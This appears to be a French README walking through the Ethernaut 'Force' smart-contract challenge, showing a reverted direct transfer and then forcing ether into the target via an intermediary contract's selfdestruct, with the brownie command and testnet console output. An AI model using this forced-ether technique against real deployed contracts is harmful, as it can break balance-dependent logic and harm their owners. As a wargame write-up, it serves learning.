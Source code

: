 # Force

## Objectif
L'objectif de ce challenge est que la balance du contrat soit supérieure à zéro

## Contract

Le contrat ne contient pas de code.
Il ne définit donc pas de fonction `fallback` `payable` qui lui permet de recevoir des fonds:
```console
>>> force = Force.deploy({'from': accounts[0]})
Transaction sent: 0xa66e9baf0da8b3fc92a46802addeee5cdec094cf525052339676ed8749810f49
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 0
  Force.constructor confirmed   Block: 1   Gas used: 67066 (0.56%)
  Force deployed at: 0x3194cBDC3dbcd3E11a07892e7bA5c3394048Cc87

>>> hacker = accounts[1]
>>> hacker.transfer(to=force, amount="1 ether")
Transaction sent: 0x40ffed503a13b6d7fc00fb7ba8a9f8419302a5486fff9b2b3696285950e33fa8
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 0
  Transaction confirmed (reverted)   Block: 2   Gas used: 21024 (0.18%)

<Transaction '0x40ffed503a13b6d7fc00fb7ba8a9f8419302a5486fff9b2b3696285950e33fa8'>
```

Pour les smart contracts, `solidity` fournit le mot clé [`selfdestruct`](https://docs.soliditylang.org/en/v0.8.13/introduction-to-smart-contracts.html?highlight=selfdestruct#deactivate-and-self-destruct) qui a la particularité d'envoyer les fonds du contrat à l'adresse donnée en paramètre.

En utilisant un contrat intermédiaire il est possible d'appeller le [`selfdestruct`](./contracts/forceAttack.sol#9)

## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x22699e6AdD7159C3C385bf4d7e1C647ddB3a99ea) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run scripts/attack.py main "0xD24f87F5dC5E3006C19B41867456206f71628945" --network rinkeby
```
```console
Brownie v1.18.1 - Python development framework for Ethereum

ForceProject is the active project.

Running 'scripts/attack.py::main'...
Transaction sent: 0x7e470f271029f2ae5f955b29c2f1467d22a16a4e816e3deaf236424bd2eaca3e
  Gas price: 1.000000014 gwei   Gas limit: 102210   Nonce: 232
  ForceAttack.constructor confirmed   Block: 10407428   Gas used: 92919 (90.91%)
  ForceAttack deployed at: 0xa1227d12464Ae7b7406F85EA15830360DA525545

Transfer to attack
Transaction sent: 0x700240944be51500968c465083926f0e846aedadcfbe8e69ab17fa270eec2422
  Gas price: 1.000000014 gwei   Gas limit: 23160   Nonce: 233
  Transaction confirmed   Block: 10407429   Gas used: 21055 (90.91%)

Destroy attack
Transaction sent: 0x036dd891252c1683ec14ae0df3097b097333674e787ea5a6f1c9dc41663f3077
  Gas price: 1.000000014 gwei   Gas limit: 32204   Nonce: 234
  ForceAttack.destroy confirmed   Block: 10407430   Gas used: 29277 (90.91%)
```

